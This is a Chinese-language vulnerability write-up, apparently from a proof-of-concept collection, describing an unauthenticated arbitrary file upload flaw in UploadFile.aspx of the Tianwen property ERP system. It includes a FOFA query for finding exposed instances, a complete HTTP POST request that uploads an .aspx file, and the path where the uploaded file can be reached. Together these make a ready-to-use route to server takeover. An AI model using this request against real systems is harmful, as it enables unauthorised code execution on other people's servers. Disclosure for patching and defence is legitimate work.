 # 天问物业ERP系统UploadFile.aspx前台任意文件上传漏洞

# 一、漏洞简介
成都天问互联科技有限公司以软件开发和技术服务为基础，建立物业ERP应用系统，向物管公司提供旨在降低成本、保障品质、提升效能为目标的智慧物管整体解决方案。天问物业ERP系统UploadFile.aspx存在文件上传漏洞，攻击者可以利用漏洞上传恶意文件获取服务器权限。

# 二、影响版本
+ 天问物业ERP

# 三、资产测绘
+ fofa`body="国家版权局软著登字第1205328号"`
+ 登录页面

![1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25.png](./img/J2_C_Y4Qr5o1xHu9/1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25-343768.png)

# 四、漏洞复现
```plain
POST /HM/M_Main/IntroductionManage/UploadFile.aspx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 121
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.aspx"

123
--00content0boundary00--

```

![1695998047798-2dbf7f98-d149-4b2e-8011-5cbe22d5ed0f.png](./img/J2_C_Y4Qr5o1xHu9/1695998047798-2dbf7f98-d149-4b2e-8011-5cbe22d5ed0f-430331.png)

上传文件地址

```plain
http://xx.xx.xx.xx/HM/M_Main/UploadFiles/IntroductionManage/20230929223355771.aspx
```

![1695998090992-c516e5ef-fa76-4fa7-8286-505dd6527b40.png](./img/J2_C_Y4Qr5o1xHu9/1695998090992-c516e5ef-fa76-4fa7-8286-505dd6527b40-165592.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aulalbh07a6ga4py>